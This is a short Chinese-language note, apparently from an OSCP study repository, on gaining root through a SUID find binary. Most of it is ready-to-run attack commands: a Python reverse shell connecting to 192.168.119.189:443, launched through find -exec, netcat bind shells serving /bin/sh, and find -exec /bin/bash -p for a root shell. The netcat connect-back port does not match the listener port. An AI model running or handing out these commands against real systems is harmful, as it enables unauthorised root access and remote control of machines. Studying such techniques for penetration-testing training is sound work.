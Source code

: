 # 确认 find 有 root 执行权限
执行命令
```
touch nong
/usr/bin/find nong -exec whoami \;
```
确认 find 命令是否是 root 权限执行.

# 反弹 shell
1. 如果目标机上有 python 环境，可以使用 python 命令反弹 shell：
```
#反弹一个sh类型的shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.189",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
结合 find :
```
/usr/bin/find nong -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.189",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \; 

```
2. 也可以结合 nc 来获得 shell
```
find /tmp -exec netcat -lvp 8888 -e /bin/sh \;

如果是cnetos环境
find /tmp -exec nc -lvp 8888 -e /bin/sh \;
```
然后 nc 主动连接：
```
netcat 127.0.0.1 5555
```

#提权获取root权限
```
find nong -exec /bin/bash -p \;
```
![find](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-find.png)
